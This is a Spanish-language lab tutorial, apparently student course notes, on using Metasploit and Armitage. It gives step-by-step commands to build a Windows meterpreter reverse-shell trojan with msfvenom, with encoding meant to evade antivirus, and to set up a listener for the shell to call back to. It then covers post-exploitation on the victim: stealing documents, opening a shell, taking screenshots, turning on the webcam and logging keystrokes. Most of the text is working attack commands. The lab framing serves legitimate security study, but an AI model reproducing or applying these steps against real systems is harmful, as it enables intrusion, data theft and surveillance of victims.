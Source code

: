 EJERCICIO USO METASPLOIT

1. Podemos ver la carpeta con los archivos de Metasploit Framework

**_cd /usr/share/metasploit-framework/_**

1. Ahora ejecutamos la consola de Metasploit: **_msfconsole_**
2. Ahora podemos buscar de la siguiente forma: **_search Type: exploit_**
3. Podemos aplicar filtros ejemplo: **_search Type: exploit platform:windows_**
4. Buscar vulnerabilidades comunes: **_search cve:2017_**
5. Quiero atacar un sistema especifico: **_search name:wordpress_**
6. Si queremos usarlo: use &lt;ruta/nombre&gt;

(**_use exploit/unix/webapp/wp_total_cache_exec_**)

1. Dentro podemos ver los objetivos: **_show targets_**
2. Podemos ver más información: **_show info_**
3. Podemos ver las opciones: **_show Options_**
4. Modificar su opción de IP REMOTE HOST: set RHOST &lt;IP OBJETIVO&gt;
5. Volvemos a ver las opciones con **show Options** y veremos la IP configurada
6. Ahora veremos los Payloads útiles relacionados a este exploit: **_show payloads_**
7. Y podemos usar el payload de igual forma que antes con **_use &lt;name/ruta&gt;_**
8. Dentro podemos ver las opciones del Payload con **_show options_**
9. Y podemos establecer nuestra configuración del LOCAL HOST:

**_set LHOST &lt;IP MAQUINA ATACANTE&gt;_**

1. Y después de realizar todas las configuraciones de las opciones simplemente ejecutamos: **_exploit_**

Esto no hará nada en específico ya que faltarían más opciones para poder ver un resultado ya que esto solo es una explicación de cómo utilizar Metasploit framework en una prueba de ejemplo.


EJERCICIO CREACION DE TROYANO E INFILTRACION A OBJETIVO

1. En la terminal de Kali levantaremos el servicio PostgreSQL:

**_service postgresql start_**

1. Y abrimos la consola Metasploit: **_msfconsole_**
2. Ejecutamos: **msfvenom -p windows/meterpreter/reverse_tcp LHOST=&lt;IP KALI&gt; LPORT=&lt;5555&gt; -f exe -e x86/shikata_ga_nai -i 10 > trojan.exe** (Mas adelante explicare cada configuración)
3. Creado el archivo deberíamos tenerlo en /Home por lo que copiaremos y meteremos a la carpeta creada (winmount) en la práctica pasada conectada a la maquina windows para enviar el troyano a la maquina víctima.
4. Ahora en la consola de Metasploit ejecutar: **_use multi/handler_**
5. Luego **_set payload windows/meterpreter/reverse_tcp_**
6. Establecemos el host local: **_set LHOST &lt;IP MAQUINA KALI&gt;_**
7. Y el Puerto: **_set LPORT 5555_**
8. Y ejecutamos: **_exploit_**
9. Regresamos a la maquina windows y volvemos a ejecutar el troyano
10. Abierto el nuevo menú de meterpreter al establecer conexión con la maquina victima vemos la ayuda con el comando **_help_**
11. Si queremos ver información del equipo ejecutamos: **_sysinfo_**
12. Si queremos ver el directorio en el que estamos en la maquina windows a través de Kali: _ls_
13. Para ver configuraciones de red: **_ipconfig_**
14. Queremos buscar los archivos (.doc) en la maquina: **_search -f \*.doc_**
15. Igual se puede con cualquier otro archivo, como ejemplo (.txt)
16. Y si queremos descargarlo: download &lt;dirección del documento&gt; (Recuerda cambiar las barras a (/))
17. Y de igual forma podemos subir un archivo**_: upload &lt;dirección origen kali&gt; &lt;dirección destino windows&gt;_** (Utilizando (\\) en esta última)
18. Usar la consola de windows: **_Shell_**

EXTRA

- El comando **msfvenom** es el comando principal de Metasploit Framework que se utiliza para generar payloads personalizados.
- **(-p windows/meterpreter/reverse_tcp**) Especifica el payload que se utilizara, en este caso es un payload para windows que establece una conexión de Shell inversa usando el módulo Meterpreter de Metasploit Framework.
- **LHOST=&lt;IP KALI&gt;** Especifica la dirección IP del host atacante, es decir, la dirección IP de Kali Linux, donde se enviarán las conexiones de retorno del sistema objetivo.
- **LPORT=&lt;5555&gt;** Esta opción especifica el puerto en el que escuchará el sistema Kali Linux para las conexiones de retorno del sistema objetivo. Aquí, estamos utilizando el puerto 5555, pero puedes cambiarlo según tus necesidades.
- **(-f exe)** Esta opción especifica el formato de salida del payload generado. En este caso, estamos generando un archivo ejecutable de Windows (.exe).
- **(-e x86/shikata_ga_nai)** Esta opción especifica el encoder que se utilizará para codificar el payload y evadir la detección de antivirus. En este caso, estamos utilizando el encoder x86/shikata_ga_nai, que es un encoder polimórfico disponible en Metasploit Framework.
- **(-i 10)** Esta opción especifica el número de iteraciones que se utilizarán para codificar el payload. Cuantas más iteraciones, más difícil será para los antivirus detectar el payload. Aquí, estamos utilizando 10 iteraciones.
- **(> trojan.exe)** Esta parte del comando redirige la salida del payload generado al archivo trojan.exe, que es el nombre del archivo que se generará y que contendrá el payload.
- **use multi/handler:** Este comando indica a Metasploit que se utilizará el módulo multi/handler, el cual es responsable de escuchar las conexiones entrantes de varios tipos de payloads. Seleccionar este módulo prepara Metasploit para recibir la conexión que será establecida por el payload que generamos previamente con msfvenom.
- **set payload windows/meterpreter/reverse_tcp**: Este comando configura el tipo de payload que se espera recibir en el handler. En este caso, estamos configurando el payload para Windows que establece una conexión de Shell inversa usando el módulo Meterpreter de Metasploit Framework y el método reverse_tcp.


EJERCICIO EXPLORACION HERRAMIENTA ARMITAGE

1. Levantar el servicio postgresql en la terminal
2. Ejecutamos Armitage: **_armitage_**
3. Damos clic en **Connect** y **Yes**
4. Se mostrará la interfaz GUI con 3 Paneles
5. Nos vamos a la opción **Armitage>Preferences**
6. Buscamos la opción con nombre **require_exploit_rank** y el valor lo cambiamos a **poor**
7. Ahora comenzaremos escaneando los hosts en **Hosts>Nmap Scan>Quick Scan (OS detect)**
8. Ingresamos el rango de la LAN en mi caso es (192.168.0.0/24) y se nos mostraran las maquinas en la red
9. Podemos seleccionar la maquina objetivo y con clic derecho ver los servicios
10. También seleccionándola y en las opciones superiores **Attacks>Find Attacks**
11. Ahora con clic derecho a la maquina objetivo tendremos la opción **Attack** con una variedad de ataques para la máquina.
12. Ahora crearemos un payload en el panel izquierdo **payload>windows>meterpreter>reverse_tcp**
13. Abierto el menú yo elegiré el **LPORT 9090**
14. En **Output** elegiremos **exe** y finalmente **Launch**
15. Y guardaremos el documento en el escritorio con el nombre **Virus101.exe**
16. En nuestro caso lo volvemos a mandar por la carpeta compartida entre las 2 máquinas de la practica 5.8
17. De nuevo en Armitage abrimos el documento de antes (reverse_tcp), elegimos el puerto 9090, Output multi/handler y Launch
18. Ahora ejecutamos el virus en la maquina windows
19. Y ahora el Logo de la maquina windows habrá cambiado al igual de la nueva consola
![IMAGEN DEL LOGO DE EJEMPLO](../assets/image53.png)
20. Y tendremos una nueva opción llamada **Meterpreter 1** al dar clic derecho en la maquina
21. De los cuales podremos usar para Explorar Archivos en la máquina, abrir su Shell de comandos, tomar capturas de pantalla, abrir su webcam, o podemos observar las pulsaciones de tecla(Esta última va a tardar un poco en iniciar)
